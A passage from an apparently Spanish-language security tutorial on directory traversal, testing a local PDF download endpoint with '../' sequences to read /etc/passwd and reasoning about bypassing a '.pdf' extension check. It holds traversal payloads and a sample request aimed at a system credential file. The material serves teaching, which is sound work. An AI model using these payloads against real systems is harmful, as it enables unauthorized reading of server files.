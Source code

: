 Y claramente no sirve.

## Leer archivos saliéndonos de los directorios con ../ [#](#explotacion-traversal-sequences) {#explotacion-traversal-sequences}

Vamos a la siguiente prueba: intentar salirnos de esa ruta usando `../`.

Imaginemos que internamente sea procesado así:

```txt
nombreArchivo = ../../../../../../../../../../../etc/passwd
ruta = /esta/es/la/ruta/de/los/pdf/<nombreArchivo>
ruta = /esta/es/la/ruta/de/los/pdf/../../../../../../../../../../../etc/passwd
ruta = /etc/passwd
```

> Recuerda agregar varios saltos de directorios, así evitas quedarte en alguna carpeta.

Probemos:

```txt
http://127.0.0.1/regulacion/archivos/descargar?nombreArchivo=../../../../../../../../../../../etc/passwd
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/directory-traversal/lanzbDIRECTORYTRAVERSAL-1-page80-regulacion-archivos-descargar-simple-traversal-etc-passwd.png" style="width: 100%;"/>

Aún nada (incluso agregándole más saltos de directorios), pero tenemos varias cosas por probar.

Algo que podemos considerar es que si exista algún tipo de sanitización en la lógica, como que este validando que al final del parámetro esté llegando la extensión `.pdf` o que esté eliminando las cadenas de texto `../`, o que sencillamente esta app no sea vulnerable (:

Intentemos lo de la extensión.

## Leer archivos agregando extensión al final [#](#explotacion-traversal-extension) {#explotacion-traversal-extension}

Internamente, puede estar pasando esto:

```txt
nombreArchivo = ../../../../../../../../../../../etc/passwd
> ¿nombreArchivo termina con la extensión .pdf?
> no
> responde 404, ya que se esta intentando acceder a algo invalido
```

```txt
nombreArchivo = ../../../../../../../../../../../etc/passwd.pdf
> ¿nombreArchivo termina con la extensión .pdf?
> si
ruta = /esta/es/la/ruta/de/los/pdf/<nombreArchivo>
ruta = /esta/es/la/ruta/de/los/pdf/../../../../../../../../../../../etc/passwd.pdf
ruta = /etc/passwd.pdf
```
